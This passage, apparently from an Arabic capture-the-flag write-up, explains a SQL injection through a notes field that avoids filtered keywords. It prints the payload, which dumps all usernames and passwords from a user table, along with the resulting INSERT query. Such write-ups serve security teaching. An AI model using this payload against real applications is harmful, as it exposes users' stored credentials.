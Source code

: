المفتاح: إنتاج قيمة واحدة صالحة تدخل كحقل ``notes`` دون فتح جملة SQL جديدة ودون استخدام كلمات محظورة.

الـ ``payload`` الناجح كان (مثال):




```python
test' || (SELECT group_concat(username || ':' || password) FROM user) || '
```

مثال الاستعلام النهائي بعد الاستبدال:

```python
INSERT INTO notes(username, notes) VALUES('victim','test' || (SELECT group_concat(username || ':' || password) FROM user) || '')
```






<img width="1214" height="775" alt="image" src="https://github.com/user-attachments/assets/b6925ea7-d463-4653-8f78-3a8ece2eaa56" />






